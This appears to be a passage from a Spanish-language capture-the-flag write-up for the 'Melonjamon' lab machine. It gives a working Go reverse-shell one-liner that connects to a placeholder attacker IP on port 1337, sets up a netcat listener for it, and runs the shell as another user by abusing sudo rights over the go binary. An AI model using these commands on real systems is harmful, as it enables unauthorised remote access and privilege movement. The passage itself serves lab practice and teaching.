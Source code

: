 <img src="/assets/images/THL-writeup-melonJamon/Captura5.png">
</p>

Ocuparemos solo la siguiente instrucción:
```bash
package main;import"os/exec";import"net";func main(){c,_:=net.Dial("tcp","Tu_IP:1337");cmd:=exec.Command("bash");cmd.Stdin=c;cmd.Stdout=c;cmd.Stderr=c;cmd.Run()}
```

Muevete al directorio `/tmp` y ahí guarda la **Reverse Shell**:
```bash
www-data@TheHackersLabs-Melonjamon:/$ cd tmp
www-data@TheHackersLabs-Melonjamon:/tmp$ nano revShellGO.go
```

Abre otro listener con **netcat**:
```bash
nc -nvlp 1337
listening on [any] 1337 ...
```

Ejecuta la **Reverse Shell** con el comando **go** como el **usuario melon**:
```bash
www-data@TheHackersLabs-Melonjamon:/tmp$ sudo -u melon go run revShellGO.go
sudo: unable to resolve host TheHackersLabs-Melonjamon: Name or service not known
```
